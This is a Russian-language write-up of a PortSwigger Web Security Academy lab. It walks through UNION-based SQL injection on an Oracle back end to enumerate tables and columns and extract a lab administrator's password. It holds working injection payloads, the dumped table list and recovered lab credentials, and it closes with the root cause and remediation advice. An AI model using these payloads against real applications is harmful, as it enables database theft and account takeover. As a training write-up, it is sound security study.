








**Дата:** 12.11.2026  
**Лаборатория:** `SQL injection attack, listing the database contents on Oracle`  
**Сложность:** Practitioner  
**Платформа:** PortSwigger Web Security Academy  
**Категория:** SQL Injection  
**Цель:** Получить учётные данные администратора (в т.ч. пароль пользователя `administrator`), извлекая содержимое таблиц из базы данных Oracle через уязвимый к SQL-инъекции параметр `category`

---




#### 1. Контекст и анализ поверхности

В ходе прохождения лабораторной работы была обнаружена и успешно эксплуатирована уязвимость SQL-инъекции в параметре `category`. Приложение использует СУБД Oracle, поэтому для извлечения данных применялись специфичные для неё объекты: таблица `DUAL` (для конструирования `SELECT` с произвольными значениями) и системное представление `ALL_TABLES` (для перечисления таблиц пользователя). После определения имени таблицы с учётными записями и имён её столбцов была выполнена UNION-инъекция, вернувшая логины и пароли, включая пароль администратора. Полученные данные позволили войти в аккаунт `administrator`.



#### 2. Эксплуатация

**Шаг 1. Определение числа столбцов**

Для начала была поставлена задача — определить, что запрос возвращает ровно два текстовых столбца. С этой целью в параметр `category` была внедрена полезная нагрузка с обращением к `dual`:

```
'+UNION+SELECT+'abc','abc'+FROM+dual--
```



**Шаг 2. Перечисление таблиц базы данных**

Далее требовалось получить список всех таблиц. Использовалась полезная нагрузка, обращающаяся к системному представлению `all_tables`:

```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```



Среди множества системных таблиц внимание привлекла пользовательская таблица `USERS_SBOUPE`.

**Шаг 3. Определение имени таблицы с учётными данными**

Результат полезной нагрузки

| APP_ROLE_MEMBERSHIP            |
| ------------------------------ |
| APP_USERS_AND_ROLES            |
| AUDIT_ACTIONS                  |
| DR$NUMBER_SEQUENCE             |
| DR$OBJECT_ATTRIBUTE            |
| DR$POLICY_TAB                  |
| DR$THS                         |
| DR$THS_PHRASE                  |
| DUAL                           |
| HELP                           |
| HS$_PARALLEL_METADATA          |
| HS_BULKLOAD_VIEW_OBJ           |
| HS_PARTITION_COL_NAME          |
| HS_PARTITION_COL_TYPE          |
| IMPDP_STATS                    |
| KU$NOEXP_TAB                   |
| KU$_DATAPUMP_MASTER_10_1       |
| KU$_DATAPUMP_MASTER_11_1       |
| KU$_DATAPUMP_MASTER_11_1_0_7   |
| KU$_DATAPUMP_MASTER_11_2       |
| KU$_LIST_FILTER_TEMP           |
| KU$_LIST_FILTER_TEMP_2         |
| NTV2_XML_DATA                  |
| ODCI_PMO_ROWIDS$               |
| ODCI_SECOBJ$                   |
| ODCI_WARNINGS$                 |
| OGIS_GEOMETRY_COLUMNS          |
| OGIS_SPATIAL_REFERENCE_SYSTEMS |
| OL$                            |
| OL$HINTS                       |
| OL$NODES                       |
| PLAN_TABLE$                    |
| PRODUCTS                       |
| PSTUBTBL                       |
| SDO_COORD_AXES                 |
| SDO_COORD_AXIS_NAMES           |
| SDO_COORD_OPS                  |
| SDO_COORD_OP_METHODS           |
| SDO_COORD_OP_PARAMS            |
| SDO_COORD_OP_PARAM_USE         |
| SDO_COORD_OP_PARAM_VALS        |
| SDO_COORD_OP_PATHS             |
| SDO_COORD_REF_SYS              |
| SDO_COORD_SYS                  |
| SDO_CRS_GEOGRAPHIC_PLUS_HEIGHT |
| SDO_CS_CONTEXT_INFORMATION     |
| SDO_CS_SRS                     |
| SDO_DATUMS                     |
| SDO_DATUMS_OLD_SNAPSHOT        |
| SDO_ELLIPSOIDS                 |
| SDO_ELLIPSOIDS_OLD_SNAPSHOT    |
| SDO_PREFERRED_OPS_SYSTEM       |
| SDO_PREFERRED_OPS_USER         |
| SDO_PRIME_MERIDIANS            |
| SDO_PROJECTIONS_OLD_SNAPSHOT   |
| SDO_ST_TOLERANCE               |
| SDO_TOPO_DATA$                 |
| SDO_TOPO_RELATION_DATA         |
| SDO_TOPO_TRANSACT_DATA         |
| SDO_TXN_IDX_DELETES            |
| SDO_TXN_IDX_EXP_UPD_RGN        |
| SDO_TXN_IDX_INSERTS            |
| SDO_UNITS_OF_MEASURE           |
| SDO_XML_SCHEMAS                |
| SRSNAMESPACE_TABLE             |
| STMT_AUDIT_OPTION_MAP          |
| SYSTEM_PRIVILEGE_MAP           |
| TABLE_PRIVILEGE_MAP            |
| USERS_SBOUPE                   |
| WRI$_ADV_ASA_RECO_DATA         |
| WRR$_REPLAY_CALL_FILTER        |
| WWV_FLOW_DUAL100               |
| WWV_FLOW_LOV_TEMP              |
| WWV_FLOW_TEMP_TABLE            |
| XDB$XIDX_IMP_T                 |


Чтобы корректно извлечь данные, необходимо было узнать имена столбцов таблицы `USERS_SBOUPE`. Для этого использовалось системное представление `all_tab_columns` с фильтром по имени таблицы:

```
`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_SBOUPE'--`
```



В результате были определены имена столбцов: `USERNAME_KMELML` (логин) и `PASSWORD_OHXBIW` (пароль).

**Шаг 4. Извлечение логинов и паролей**

Поскольку извлечь требовалось пароль от `administrator`, был выполнен запрос к найденной таблице с использованием определённых имён столбцов:

```
'+UNION+SELECT+USERNAME_KMELML,+PASSWORD_OHXBIW+FROM+USERS_SBOUPE--
```



**Шаг 5. Авторизация администратором**

Так как часть данных в ответе не поддавалась копированию напрямую, для получения полного ответа использовался Burp Suite: по клику правой кнопкой мыши на запросе выбирался пункт **Request in browser → in current browser session**, после чего URL открывался в браузере. Это позволило извлечь пароль администратора:

user: administrator 
pass: 02oc5hf646v706hzhlfs





_успешный вход в аккаунт `administrator`_

---

В результате эксплуатации SQL-инъекции было:

- определено количество столбцов в уязвимом запросе;
- перечислены таблицы БД Oracle через `all_tables`;
- идентифицирована таблица с учётными записями `USERS_SBOUPE`;
- **перечислены столбцы целевой таблицы через `all_tab_columns`** (`USERNAME_KMELML`, `PASSWORD_OHXBIW`);
- извлечены логины и пароли, включая пароль `administrator`;
- выполнена успешная авторизация в аккаунте администратора.

**Корневая причина:** отсутствие параметризации запросов и должной валидации пользовательского ввода в параметре `category`, что позволяет внедрять произвольные `UNION SELECT`-конструкции.

**Рекомендации по устранению:** использование параметризованных запросов (prepared statements), ограничение прав учётной записи БД, применение принципа наименьших привилегий и валидация входных данных.